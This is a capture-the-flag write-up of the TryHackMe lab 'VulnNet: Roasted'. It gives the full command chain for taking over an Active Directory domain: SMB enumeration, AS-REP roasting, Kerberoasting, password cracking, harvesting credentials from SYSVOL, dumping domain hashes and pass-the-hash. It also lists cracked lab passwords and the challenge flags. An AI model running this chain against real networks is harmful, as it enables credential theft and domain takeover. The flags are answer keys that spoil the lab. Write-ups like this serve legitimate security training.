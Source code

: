 # VulnNet: Roasted - TryHackMe

**Platform:** TryHackMe  
**Difficulty:** Easy  
**IP Address:** `10.201.79.171`

![Proof](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/thm_roasted.png)

---

## 🧭 Overview

`VulnNet: Roasted` is an Active Directory-themed Windows machine focused on enumeration, user hunting, AS-REP roasting, Kerberoasting, and privilege escalation through weak scripts. It demonstrates classic Windows network exploitation methodology, ending with full domain compromise.

---

## 🔍 Enumeration

### 🔎 Nmap
```bash
rustscan -a $target --ulimit 5000 -- -sC -sV -Pn -oN nmap_full
```
- High number of open ports (Kerberos, LDAP, SMB, WinRM)
- AD Domain: `vulnnet-rst.local`

### 🔎 SMB Shares
```bash
smbclient -L \\$target\
```
- Two anonymous shares found:
  - `VulnNet-Business-Anonymous`
  - `VulnNet-Enterprise-Anonymous`

Retrieved internal usernames:
```
Alexa Whitehat
Jack Goldenhand
Tony Skid
Johnny Leet
```

---

## 🚪 Exploitation

### 👥 Username Enumeration & AS-REP Roasting
```bash
git clone https://github.com/mohinparamasivam/AD-Username-Generator
python3 username-generate.py -u names.txt -o users.txt
kerbrute userenum users.txt --dc $target -d vulnnet-rst.local
```
**Valid Users:**
- `a-whitehat`
- `j-goldenhand`
- `t-skid`
- `j-leet`

```bash
GetNPUsers -dc-ip $target -usersfile users.txt -outputfile hashes.txt
```
**Found AS-REP hash for:** `t-skid`

### 🔓 Password Cracking
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
**Password:** `tj072889*`

### ✅ WinRM Access
```bash
crackmapexec winrm $target -u t-skid -p 'tj072889*'  # Fails
```

### 🔥 Kerberoasting
```bash
GetUserSPNs -dc-ip $target 'vulnnet-rst.local/t-skid:tj072889*' -request
```
**Service User:** `enterprise-core-vn`

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt krbhash.txt
```
**Password:** `ry=ibfkfv,s6h,`

### 🦝 Evil-WinRM Shell
```bash
evil-winrm -u enterprise-core-vn -p 'ry=ibfkfv,s6h,' -i $target
```
**User Flag:** `THM{726b7c0baaac1455d05c827b5561f4ed}`

---

## ⬆️ Privilege Escalation

### 📁 SMB Script Disclosure
```bash
smbclient -U 'enterprise-core-vn' \\$target\SYSVOL
get vulnnet-rst.local/scripts/ResetPassword.vbs
```
**Credentials found:**
- User: `a-whitehat`
- Pass: `bNdKVkjv3RR9ht`

### 🧠 Domain Admin Access
```bash
crackmapexec winrm $target -u a-whitehat -p 'bNdKVkjv3RR9ht'  # Pwn3d!
```
```bash
impacket-wmiexec vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@$target
```
Confirmed: `a-whitehat` is a **Domain Admin**.

### 🧂 Dumping Hashes
```bash
impacket-secretsdump -just-dc-ntlm vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@$target
```
- Dumped all domain user hashes
- Administrator hash obtained

### 🛡️ Administrator Shell
```bash
impacket-wmiexec vulnnet-rst.local/Administrator@$target -hashes :c2597747aa5e43022a3a3049a3c3b09d
```
**Root Flag:** `THM{16f45e3934293a57645f8d7bf71d8d4c}`

---

## 🧠 Lessons Learned

- Always check SMB shares for low-hanging usernames.
- Username generators + Kerbrute + AS-REP = reliable foothold.
- Kerberoasting remains effective against misconfigured service accounts.
- SYSVOL is gold for escalation scripts.
- Privilege escalation via password reuse and domain group memberships is common.

---